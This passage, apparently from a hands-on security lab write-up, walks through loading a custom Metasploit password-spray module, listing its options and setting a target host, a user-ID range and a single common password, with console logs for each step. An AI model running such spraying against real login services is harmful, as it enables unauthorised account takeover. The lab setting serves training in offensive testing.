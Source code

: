 3. Change to your exploit with

   ```bash
   use exploit/http/passwordspray/spray
   ```

   LOG:

   ```bash
   msf5 > use exploit/http/passwordspray/spray 
   msf5 auxiliary(http/passwordspray/spray) >
   ```

4. Get all available options/parameters

   ```bash
   show options
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > show options
   
   Module options (auxiliary/http/passwordspray/spray):
   
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      THREADS    1                yes       The number of concurrent threads (max one per host)
      enduser                     yes       The end user
      password                    yes       The password
      startuser                   yes       The start user
   
   msf5 auxiliary(http/passwordspray/spray) >
   ```

5. Set the modules parameters with `set optionName`

   ```bash
   set rhosts pwspray.vm.vuln.land
   set startuser 140000
   set enduser 140500
   set password password
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > set rhosts pwspray.vm.vuln.land
   rhosts => pwspray.vm.vuln.land
   msf5 auxiliary(http/passwordspray/spray) > set startuser 140000
   startuser => 140000
   msf5 auxiliary(http/passwordspray/spray) > set enduser 140500
   enduser => 140500
   msf5 auxiliary(http/passwordspray/spray) > set password password
   password => password
   ```
